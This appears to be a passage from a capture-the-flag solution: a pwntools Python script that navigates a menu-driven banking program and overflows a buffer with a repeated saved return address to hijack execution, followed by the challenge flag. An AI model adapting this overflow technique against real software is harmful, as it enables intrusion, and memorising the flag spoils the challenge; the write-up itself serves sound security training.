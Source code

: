 ```python

p.sendline('1')
recv_input()
p.sendline('1')
recv_input()

# create account 2

p.sendline('1')
recv_input()
p.sendline('1')
recv_input()

p.sendline('a')

# make transaction

p.sendline('2')
recv_input()

p.sendline(str(account_id_counter))
account_id_counter += 1
recv_input()
p.sendline(str(account_id_counter))
account_id_counter += 1
recv_input()
p.sendline('0')
recv_input()
p.sendline(p32(saved_eip) * 49)
recv_input()
p.sendline('')
recv_input()

p.sendline('0')

print(p.recvall())
```

flag: `FormattingMatters`